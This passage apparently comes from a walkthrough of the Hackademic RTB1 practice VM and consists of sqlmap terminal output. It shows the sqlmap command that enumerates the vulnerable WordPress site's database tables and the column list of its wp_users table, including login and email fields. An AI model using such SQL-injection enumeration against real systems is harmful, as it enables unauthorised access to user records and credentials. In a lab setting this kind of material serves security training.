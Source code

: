 ```
[22:33:47] [INFO] resuming back-end DBMS 'mysql' 
[22:33:48] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL 5.0
[22:33:48] [INFO] fetching tables for database: 'wordpress'
[22:33:48] [INFO] the SQL query used returns 9 entries
[22:33:48] [INFO] resumed: wp_categories
[22:33:48] [INFO] resumed: wp_comments
[22:33:48] [INFO] resumed: wp_linkcategories
[22:33:48] [INFO] resumed: wp_links
[22:33:48] [INFO] resumed: wp_options
[22:33:48] [INFO] resumed: wp_post2cat
[22:33:48] [INFO] resumed: wp_postmeta
[22:33:48] [INFO] resumed: wp_posts
[22:33:48] [INFO] resumed: wp_users
Database: wordpress
[9 tables]
+-------------------+
| wp_categories     |
| wp_comments       |
| wp_linkcategories |
| wp_links          |
| wp_options        |
| wp_post2cat       |
| wp_postmeta       |
| wp_posts          |
| wp_users          |
+-------------------+

[*] shutting down at 22:33:48

root@bt:/pentest/database/sqlmap# python sqlmap.py --url http://192.168.1.168/Hackademic_RTB1/?cat=0 -D wordpress -T wp_users --columns
[22:36:06] [INFO] resuming back-end DBMS 'mysql' 

[22:36:06] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Fedora 13 (Goddard)
web application technology: PHP 5.3.3, Apache 2.2.15
back-end DBMS: MySQL 5.0
[22:36:06] [INFO] fetching columns for table 'wp_users' in database 'wordpress'
[22:36:06] [WARNING] the SQL query provided does not return any output
[22:36:06] [INFO] the SQL query used returns 22 entries
Database: wordpress
Table: wp_users
[22 columns]
+---------------------+---------------------+
| Column              | Type                |
+---------------------+---------------------+
| ID                  | bigint(20) unsigned |
| user_activation_key | varchar(60)         |
| user_aim            | varchar(50)         |
| user_browser        | varchar(200)        |
| user_description    | longtext            |
| user_domain         | varchar(200)        |
| user_email          | varchar(100)        |
| user_firstname      | varchar(50)         |
| user_icq            | int(10) unsigned    |
| user_idmode         | varchar(20)         |
| user_ip             | varchar(15)         |
| user_lastname       | varchar(50)         |
| user_level          | int(2) unsigned     |
| user_login          | varchar(60)         |
```